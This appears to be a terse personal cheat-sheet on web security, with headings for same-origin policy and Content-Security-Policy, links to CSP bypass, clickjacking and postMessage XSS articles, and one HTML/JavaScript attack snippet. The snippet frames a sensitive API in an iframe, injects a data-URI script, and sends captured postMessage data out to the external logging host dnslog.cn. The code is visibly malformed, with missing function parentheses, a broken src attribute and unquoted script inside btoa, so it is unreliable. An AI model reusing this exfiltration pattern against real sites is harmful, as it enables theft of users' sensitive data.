 # Striction
## SOP
## CSP
Content-Security-Policy
- [Bypass of CSP](https://csplite.com/csp320/)
- data protocol allowed: xss by iframe, combining postMessage to steal info
```
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)
- [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)

# Filter
- 
